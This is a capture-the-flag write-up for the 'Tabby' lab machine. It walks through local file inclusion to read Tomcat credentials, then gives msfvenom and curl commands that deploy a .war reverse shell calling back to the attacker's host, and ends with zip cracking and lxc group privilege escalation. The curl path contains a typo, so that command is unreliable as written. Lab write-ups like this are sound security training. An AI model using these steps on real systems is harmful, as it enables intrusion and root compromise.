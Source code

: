 # Tabby

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

### LFI

We would have to add `megahosting.htb` to our `/etc/hosts` file to view port 80. Afterwards, we would just see something like this on the page:

<figure><img src="../../../.gitbook/assets/image (35) (1).png" alt=""><figcaption></figcaption></figure>

When we press the Compare button, we would be brought to `/news.php?file=statement`. I tested for LFI, and it worked!

<figure><img src="../../../.gitbook/assets/image (25) (2) (2).png" alt=""><figcaption></figcaption></figure>

### Tomcat

Tomcat was running on port 8080, and we would need to somehow get the manager password to upload a .war reverse shell. Since we have LFI, we can read it at `/usr/share/tomcat9/etc/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (32) (1) (1).png" alt=""><figcaption></figcaption></figure>

The password is `$3cureP4s5w0rd123!`. Then, we can login to the admin dashboard, create a .war reverse shell using `msfvenom`, upload it, and execute it via `curl`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.9 LPORT=4444 -f war -o rev.war
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/mnager/text/deploy?path=/shell --upload-file rev.war
```

<figure><img src="../../../.gitbook/assets/image (15) (1) (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup Zip --> Ash

When looking aroun the file system, I found this backup file here:

<figure><img src="../../../.gitbook/assets/image (42) (2).png" alt=""><figcaption></figcaption></figure>

This waws password protected, so let's transfer this back to our machine via `nc` and then use `john` on it:

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

The backup file had nothing on it...which was weird. Since we have a password, might as well try `su`, and it worked to getting to `ash`:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2).png" alt=""><figcaption></figcaption></figure>

### LXC Group

When we check the `id` of `ash`, we see that they are part of the `lxc` group.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

This exploitable because we can create a container and mount it with root access to the main machine.

{% embed url="https://steflan-security.com/linux-privilege-escalation-exploiting-the-lxc-lxd-groups/" %}

Following the resource above, we can spawn a root shell:

<figure><img src="../../../.gitbook/assets/image (19) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
